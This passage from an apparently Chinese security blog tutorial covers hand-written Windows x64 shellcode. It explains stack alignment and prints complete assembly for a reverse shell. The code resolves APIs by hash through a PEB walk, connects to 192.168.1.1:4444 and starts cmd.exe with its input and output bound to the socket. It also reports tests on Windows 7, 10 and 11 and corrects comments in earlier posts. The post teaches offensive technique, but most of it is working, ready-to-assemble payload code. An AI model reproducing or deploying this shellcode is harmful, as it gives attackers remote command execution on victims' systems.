mov r10,5DDB71FAh			; Kernel32.dll+CreateProcessA hash
call GetProcAddressByHash
```

需要关注的就是为 PROCESS\_INFORMATION 分配空间，执行到 `sub rsp, 32`  时，虽然我们的RSP已经按照16字节对齐了，但是需要分配24 字节的 `PROCESS_INFORMATION` ，而且后续有6次push操作，则 rsp要减去 `24+6*8=50`，执行到call指令时rsp以8结尾，因为不对齐的缘故，程序异常，所以要加上8字节用于对齐，最终rsp减去 `24+8（用于对齐）+6\*8=56`，rsp保存16字节对齐了，即以0结尾。



调式看一下，不管对不对齐，此时的RSP必定以0结尾，首先看不对齐会怎么样。



执行完call指令后，发生异常



对齐后，执行完call指令后，没有发生异常，且rax为非0，这表明CreateProcessA 成功执行。



所以，这也是为什么windows x64 shellcode编写如此困难的原因，因为我们要时刻关注RSP对齐！

## 5.2 测试

win11上以exe的形式反弹shell



win11以shellcode的形式反弹shell



win10上可以正常反弹shell



win7上可以反弹shell，但是会显示"已停止工作"



## 5.3 完整代码

Kernel32.dll+CreateProcessA=5DDB71FAh

```
.code

main proc

    ; 1. 清除方向标志并对齐栈指针，确保符合Windows x64调用约定
    cld												; 清除方向标志（DF=0），字符串操作向高地址进行
    and rsp, 0FFFFFFFFFFFFFFF0h						; 将RSP对齐到16字节边界，避免栈未对齐导致的异常

    ; 2.加载ws2_32.dll库
    push 0											; 为了对齐
    mov r14, '23_2sw'								; 构造字符串'ws2_32\0'
    push r14												; 将字符串压栈，此时RSP指向"ws2_32\0"的地址
    mov rcx, rsp										; RCX = 字符串地址，作为LoadLibraryA的参数
    mov r10, 0DEC21CCDh						; kernel32.dll+LoadLibraryA的哈希值
    call GetProcAddressByHash

    ; 3.调用WSAStartup函数
    sub rsp, 400+8									; WSAData结构体大小400字节，8个字节对齐
    mov r13,rsp										; R13保存WSAData结构指针
    mov r12,0101A8C05C110002h						; 构造sockaddr_in结构：192.168.1.1:4444, AF_INET
    push r12												; 压栈保存sockaddr_in结构
    mov r12,rsp										; R12保存sockaddr_in结构指针
    mov rdx,r13										; RDX = WSAData结构指针
    push 0101h											; Winsock 1.1版本
    pop rcx												; RCX = 0101h
    mov r10,78A22668h							; ws2_32.dll+WSAStartup的哈希值
    call GetProcAddressByHash
    
    test eax,eax
    jnz failure

    ; 4.调用WSASocketA函数
    mov rcx,2											; af=AF_INET (IPv4)
    mov rdx,1											; af=SOCK_STREAM (TCP)
    xor r8,r8											; protocol = 0 (默认)
    xor r9,r9											; lpProtocolInfo = NULL
    push r9												; dwFlags = 0
    push r9												; g=0
    mov r10,5915B629h									; ws2_32.dll+WSASocketA的哈希值
    call GetProcAddressByHash
    xchg r15,rax										; 保存套接字句柄到r15，以备后续使用

    ; 6.调用connect函数
    mov rcx,r15											; 套接字句柄
    mov rdx,r12											; sockaddr_in结构指针
    push 16												; sockaddr_in结构长度
    pop r8												; R8 = 16
    mov r10,0D9AB4BD8h									; ws2_32.dll+connect的哈希值
    call GetProcAddressByHash

    test eax,eax										; 如果返回值不为零则表示错误
    jnz failure

    ; 7. 清栈
    add rsp, ((400+8)+(5*8)+(4*32))						

    ; 8. memset(&si, 0, sizeof(STARTUPINFOA))
    sub rsp,68h			; sizeof(STARTUPINFOA)
    mov r12,rsp         ; r12 = STARTUPINFOA指针，以备后续使用
    mov rdi, rsp		; rdi = STARTUPINFOA指针
    xor rax,rax			; 清零
    mov rcx, 68h		; 循环次数 = 68h
    rep stosb			; rep重复执行stosb，直到ecx 减到 0。

    ; 9.设置关键字段
    mov dword ptr [rsp],68h             ; si.cb = sizeof(STARTUPINFOA)
    mov dword ptr [rsp + 60], 101h      ; si.dwFlags = STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW
    mov qword ptr [rsp + 80], r15       ; si.hStdInput = socket
    mov qword ptr [rsp + 88], r15		; si.hStdOutput = socket
    mov qword ptr [rsp + 96], r15       ; si.hStdError = socket
    
    ; 10. 调用CreateProcessA
    xor rbx,rbx				; 清零，后续会用到
    xor rcx,rcx				; lpApplicationName
    mov rdx,'exe.dmc'
    push rdx
    mov rdx,rsp				; "cmd.exe"字符串指针
    xor r8,r8				; lpProcessAttributes
    xor r9,r9				; lpThreadAttributes
    
    ; 为 PROCESS_INFORMATION 分配空间
    sub rsp, 32             ; 分配32字节（PROCESS_INFORMATION=24 + 对齐8）
    push rsp					; lpProcessInformation
    push r12					; lpStartupInfo,
    push rbx					; lpCurrentDirectory
    push rbx					; lpEnvironment
    push rbx					; dwCreationFlags
    inc rbx
    push rbx					; bInheritHandles
    mov r10,5DDB71FAh			; Kernel32.dll+CreateProcessA hash
    call GetProcAddressByHash

    ; 11. 结束
failure:
    mov r10,2E3E5B71h             ; kernel32.dll+ExitProcess 哈希值
    call GetProcAddressByHash 

GetProcAddressByHash:
    
    ; 1. 保存前4个参数到栈上，并保存rsi和r12的值
    push r9
    push r8
    push rdx
    push rcx
    push rsi
    push r12

    ; 2. 获取 InMemoryOrderModuleList 模块链表的第一个模块结点
    xor rdx,rdx									; 清零
    mov rdx,gs:[rdx+60h]						; 通过GS段寄存器获取PEB地址（TEB偏移0x60处）
    mov rdx,[rdx+18h]								; PEB->Ldr
    mov rdx,[rdx+20h]								; 第一个模块节点，也是链表InMemoryOrderModuleList的首地址

    ;3.模块遍历
next_mod:
    mov rsi,[rdx+50h]                 				; 模块名称
    movzx rcx,word ptr [rdx+48h]	 		; 模块名称长度
    xor r8,r8                         						; 存储接下来要计算的hash

    ; 4.计算模块hash
loop_modname:
    xor rax, rax											; 清零EAX，准备处理字符
    lodsb													; 从rSI加载一个字节到AL（自动递增rSI）
    cmp al,'a'												; 比较当前字符的ASCII值是否小于小写字母'a'(0x61)
    jl not_lowercase									; 如果字符 < 'a'，说明不是小写字母，跳转不处理
    sub al, 20h											; 若字符在'a'-'z'范围内，通过减0x20转换为大写字母（'A'-'Z'）
not_lowercase:
    ror r8d,0dh											; 对R8的低32位进行循环右移13位，不影响高32位
    add r8d,eax										; 将当前字符的ASCII值（已大写化）累加到哈希值
    dec ecx												; 字符计数器ECX减1
    jnz loop_modname							; 继续循环处理下一个字符，直到ECX减至0
    push rdx												; 将当前模块链表节点地址压栈    
    push r8												; 将计算完成的哈希值压栈存储hash值

    ; 5.获取导出表
    mov rdx, [rdx+20h]							; 获取模块基址
    mov eax, dword ptr [rdx+3ch]			; 读取PE头的RVA
    add rax, rdx										; PE头VA
    cmp word ptr [rax+18h],20Bh			; 检查是否为PE64文件
    jne get_next_mod1								; 不是就下一个模块
    mov eax, dword ptr [rax+88h]			; 获取导出表的RVA
    test rax, rax										; 检查该模块是否有导出函数
    jz get_next_mod1								; 没有就下一个模块
    add rax, rdx										; 获取导出表的VA
    push rax												; 存储导出表的地址
    mov ecx, dword ptr [rax+18h]			; 按名称导出的函数数量
    mov r9d, dword ptr [rax+20h]			; 函数名称字符串地址数组的RVA
    add r9, rdx											; 函数名称字符串地址数组的VA

    ; 6.获取函数名	
get_next_func:	
    test rcx, rcx										; 检查按名称导出的函数数量是否为0
    jz get_next_mod								; 若所有函数已处理完，跳转至下一个模块遍历
    dec rcx												; 函数计数器递减（从后向前遍历函数名数组）
    mov esi, dword ptr [r9+rcx*4]			; 从末尾往前遍历，一个函数名RVA占4字节
    add rsi, rdx											; 函数名RVA
    xor r8, r8												; 存储接下来的函数名哈希

    ; 7.计算模块 hash + 函数 hash之和
loop_funcname: 
    xor rax, rax											; 清零EAX，准备处理字符
    lodsb													; 从rsi加载一个字节到al，rsi自增1
    ror r8d,0dh											; 对当前哈希值（r8d）循环右移13位
    add r8d,eax										; 将当前字符的ASCII值（al）累加到哈希值（r8d）
    cmp al, ah											; 检查当前字符是否为0（字符串结束符）
    jne loop_funcname							; 若字符非0，继续循环处理下一个字符
    add r8,[rsp+8]									; 将之前压栈的模块哈希值（位于栈顶+8）加到当前函数哈希
    cmp r8d,r10d										; r10存储目标hash
    jnz get_next_func

    ; 8.获取目标函数指针
    pop rax												; 获取之前存放的当前模块的导出表地址
    mov r9d, dword ptr [rax+24h]			; 获取序号表（AddressOfNameOrdinals）的 RVA
    add r9, rdx											; 序号表起始地址
    mov cx, [r9+2*rcx]								; 从序号表中获取目标函数的导出索引
    mov r9d, dword ptr [rax+1ch]			; 获取函数地址表（AddressOfFunctions）的 RVA
    add r9, rdx											; AddressOfFunctions数组的首地址
    mov eax, dword ptr [r9+4*rcx]			; 获取目标函数指针的RVA
    add rax, rdx										; 获取目标函数指针的地址

finish:
    pop r8													; 清除当前模块hash
    pop r8													; 清除当前链表的位置
    pop r12
    pop rsi													; 恢复RSI
    pop rcx												; 恢复第一个参数
    pop rdx												; 恢复第二个参数
    pop r8													; 恢复第三个参数
    pop r9													; 恢复第四个参数
    pop r10												; 将返回地址地址存储到r10中
    sub rsp, 20h										; 给前4个参数预留 4*8=32（20h）的影子空间
    push r10												; 返回地址
    jmp rax												; 调用目标函数

get_next_mod:                 
    pop rax                         						; 弹出栈中保存的导出表地址
get_next_mod1:
    pop r8                         				 		; 弹出之前压栈的计算出来的模块哈希值
    pop rdx                         						; 弹出之前存储在当前模块在链表中的位置
    mov rdx, [rdx]                  					; 获取链表的下一个模块节点（FLINK）
    jmp next_mod                    				; 跳转回模块遍历循环

main endp
end
```

## 5.4 往期文章纠错

**（1）是先对齐填充，后设置参数!!!!！**

在 `Windows Shellcode开发（x64 stager）` 文章[[11]](https://xz.aliyun.com/news/17961)中，我写的注释是先填参数后对齐填充，虽然我按照 `Stephen Fewer` 的注释写的，但这是错误的。



我们验证一下，在 `10. 调用CreateProcessA` 的 `call GetProcAddressByHash` 下一个断点



因为执行完 `GetProcAddressByHash` 函数后，栈空间如下图所示，很明显影子空间后面就是需要通过栈来传递的参数，比如 `01 00 00 00 00 00 00 00` 就是 `bInheritHandles` 参数



修改成下面所示的代码



再次调式看看，因为执行完 `push rbx` 后执行 `push 0` ，所以windows API会将0作为`bInheritHandles`的值



执行后，程序异常



**（2）参数注释错误**

在比如说在 `Windows Shellcode开发（x86 stager）` 文章[[12]](https://xz.aliyun.com/news/17827)中出现了不少注释错误，主要原因还是因为我让AI帮我写注释，然后我也没仔细检查。



正确的应该为

```
; 2. 调用WinHttpOpen创建会话句柄
push ebx                    ; dwFlags=0
push ebx                    ; pszProxyBypassW
push ebx                    ; pszProxyW
push 1                     	 ; dwAccessType
push ebx                    ; pszAgentW
push 332D226Eh           ; WinHttpOpen的哈希值
call GetProcAddressByHash   ; 调用WinHttpOpen，返回句柄在EAX中
```

# 六、下一步计划

下一篇文章的内容是有些颠覆性的，夸张的说法o.O，但光是想想就兴奋起来了٩(๑˃̵ᴗ˂̵๑)۶。文章已经完成可行性分析和技术验证，大概率会发表，所以srdi的文章要往后推了。如果粉丝数超过15，我会在这个月内发表出来，所以各位师傅的点赞、收藏和关注真的对我很重要呜呜呜呜呜呜>.<

# 参考资料

[1]: [【安装教程】kali 虚拟机下载vscode以及无法启动问题\_kali安装vscode-CSDN博客](https://blog.csdn.net/CM_STC89C52/article/details/127296320)  
[2]: [Download Visual Studio Code - Mac, Linux, Windows](https://code.visualstudio.com/Download)  
[3]:<https://course.ccs.neu.edu/cs3650sp23/l/02/x86-64-sysv-abi.pdf>  
[4]: [metasploit-framework/external/source/shellcode/linux/x64/stager\_sock\_reverse.s at master · rapid7/metasploit-framework](https://github.com/rapid7/metasploit-framework/blob/master/external/source/shellcode/linux/x64/stager_sock_reverse.s)  
[5]:[linux/include/linux/syscalls.h at master · torvalds/linux](https://github.com/torvalds/linux/blob/master/include/linux/syscalls.h)  
[6]: [linux/arch/x86/entry/syscalls at master · torvalds/linux](https://github.com/torvalds/linux/tree/master/arch/x86/entry/syscalls)  
[7]: [Creating a shellcode: Reverse tcp shell | by INMUNE7 | Medium](https://medium.com/@inmune7/creating-a-shellcode-reverse-tcp-shell-1eea51c633ff)  
[8]: [免杀那点事之随手C写一个持久反弹shell(六)](https://mp.weixin.qq.com/s?__biz=MzkwMDMyOTA1OA==&mid=2247484459&idx=1&sn=a647dd68e3671534915a9d332b3b84ef&chksm=c15686eeafca8897b9d64a652f085e8ec328452411a9d58798e52d52725d5d7ff874b6d0957b#rd)  
[9]: [STARTUPINFOA (processthreadsapi.h) - Win32 apps | Microsoft Learn](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-startupinfoa)  
[10]: [CreateProcessA 函数 （processthreadsapi.h） - Win32 apps | Microsoft Learn](https://learn.microsoft.com/zh-cn/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa)  
[11]: [Windows Shellcode开发（x64 stager）-先知社区](https://xz.aliyun.com/news/17961)  
[12]: [Windows Shellcode开发（x86 stager）-先知社区](https://xz.aliyun.com/news/17827)
